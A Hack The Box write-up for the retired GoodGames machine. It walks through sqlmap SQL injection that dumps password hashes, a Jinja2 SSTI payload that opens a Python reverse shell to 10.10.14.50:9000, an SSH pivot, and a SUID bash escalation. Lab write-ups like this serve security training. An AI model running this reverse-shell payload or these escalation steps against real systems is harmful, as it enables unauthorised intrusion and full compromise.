


# Hack The Box - GoodGames




Hello guys, I'll be walking you through the attack vectors and findings for the retired box **GoodGames**. This machine starts with a SQL injection in the login form that exposes admin credentials, then moves into an internal admin portal where a Jinja2 SSTI gives me a root shell inside a container. From there, I pivot to the host as `augustus` and finish with a simple SUID bash escalation to root.

## Reconnaissance

I started by adding the target host to my `/etc/hosts` file.

```text
10.10.11.130 goodgames.htb
```

Then I ran a full port scan to see what was exposed.

```bash
nmap -Pn -n -sV -p- -T5 -vvv --min-rate=10000 goodgames.htb -oN nmapgoodgames.txt -oX nmapggodgames.xml
```

The scan showed only HTTP on port 80:

```text
80/tcp open  http  Werkzeug httpd 2.0.2 (Python 3.9.2)
```


## Initial Access

### SQL Injection

The website had a sign-in prompt in the top right corner, and it turned out to be vulnerable to SQL injection. I captured the request in Burp Suite and saved it for sqlmap.

```bash
sqlmap -r request.txt --dbs
```

That showed a MySQL database named `main`.

I then dumped the tables from that database:

```bash
sqlmap -r request.txt -D main --dump
```

The interesting table was `user`, and dumping it gave me two accounts:

```text
admin@goodgames.htb : 2b22337f218b2d82dfc3b6f77e7cb8ec
s@s.com             : 88479e328a8633f54e9c667651832fbc
```

Cracking the admin hash revealed the password:

```text
superadministrator
```

After logging in as admin, I was redirected to `/profile`, and a new option appeared that led to:

```text
internal-administration.goodgames.htb
```

I added that hostname to `/etc/hosts` as well and visited the internal site.

## Internal Portal



The internal portal showed a Volt dashboard, go into profile section for updating our information.

The profile settings page contained a comment that hinted at server-side template rendering, so I tested the `Full Name` field with a simple expression:

```text
{{2*2}}
```

That confirmed a **Jinja2 SSTI**.

### SSTI to Shell

I used a Jinja2 payload to spawn a reverse shell back to my listener. The payload executed inside a Docker container, and the shell came back as `root` in the container context.

```jinja2


{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.50\",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}


```

The container shell showed:

```text
uid=0(root) gid=0(root) groups=0(root)
```

I found `/home/augustus` in the container filesystem, which was a strong hint that the host user existed on the underlying machine.

## Host Pivot

### Docker to Host

Checking the mount points and network interfaces showed that the container had access to the host filesystem and could reach the host at `172.19.0.1`.

I used the admin password I had already recovered:

```text
superadministrator
```

Then I logged in to the host via SSH as `augustus`:

```bash
ssh augustus@172.19.0.1
```

That worked, and I landed on the host as `augustus`.

## Privilege Escalation

### SUID Bash

Inside `augustus`’s home directory, I noticed that files there were writable from the container shell. From the container root shell, I copied `/bin/bash` into `/home/augustus`, changed ownership to root, and set the SUID bit.

```bash
cp /bin/bash /home/augustus/bash
chown root:root bash
chmod 4777 bash
```

Then I SSH’d back in as `augustus` and launched the copied binary with `-p`:

```bash
./bash -p
```

That gave me a root shell on the host.

From there I read the root flag in `/root/root.txt`.

## Attack Path

- **Scan the host** — identify HTTP on port 80.
- **Exploit the login form** — use SQL injection to dump the database.
- **Crack the admin hash** — recover `superadministrator`.
- **Access the internal portal** — reach `internal-administration.goodgames.htb`.
- **Test for SSTI** — confirm Jinja2 evaluation with `{{2*2}}`.
- **Gain container root** — run a Jinja2 reverse shell payload.
- **Pivot to the host** — SSH into `172.19.0.1` as `augustus`.
- **Create a SUID bash** — copy `/bin/bash`, chown it to root, and set the SUID bit.
- **Escalate to root** — run `./bash -p` and read the final flag.
